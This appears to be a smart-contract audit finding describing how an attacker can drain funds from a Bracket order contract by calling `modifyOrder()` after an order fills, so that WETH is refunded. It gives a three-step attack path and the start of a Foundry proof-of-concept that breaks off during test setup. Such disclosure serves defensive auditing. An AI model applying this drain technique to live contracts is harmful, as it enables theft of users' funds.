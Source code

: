 _No response_

### Attack Path

1. Attacker creates an order to sell WETH for USDC with amountIn = 1 ether
2. The order is filled, sending 4000 USDC to the attacker (assume WETH price is 4000$)
3. Attacker calls `modifyOrder()` to decrease position => attacker can be refunded WETH as long as the order USD value after refunded satisfies order min size

### Impact

- Funds can be drained

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Bracket, IERC20, IBracket} from "contracts/automatedTrigger/Bracket.sol";
import {AutomationMaster, IPythRelay, IAutomation} from "contracts/automatedTrigger/AutomationMaster.sol";
import "contracts/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "forge-std/mocks/MockERC20.sol";

contract MockToken is MockERC20 {
    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract MyTest is Test {
    Bracket bracket;
    AutomationMaster master;
    address permit2;

    IERC20 usdc;
    IERC20 weth;

    address usdcOracle;
    address wethOracle;

    IERC20[] tokens;
    IPythRelay[] oracles;

    uint96 currentOrderId;

    address alice;

    function setUp() public {
        permit2 = makeAddr("permit2");
        usdcOracle = makeAddr("usdcOracle");
        wethOracle = makeAddr("wethOracle");
        alice = makeAddr("alice");

        master = new AutomationMaster();
        bracket = new Bracket(master, IPermit2(permit2));

        MockToken _usdc = new MockToken();
        _usdc.initialize("usdc", "usdc", 8);
        _usdc.mint(address(this), 1000000e8);
        _usdc.mint(alice, 1000000e8);
        _usdc.approve(address(bracket), 1000000e8);
```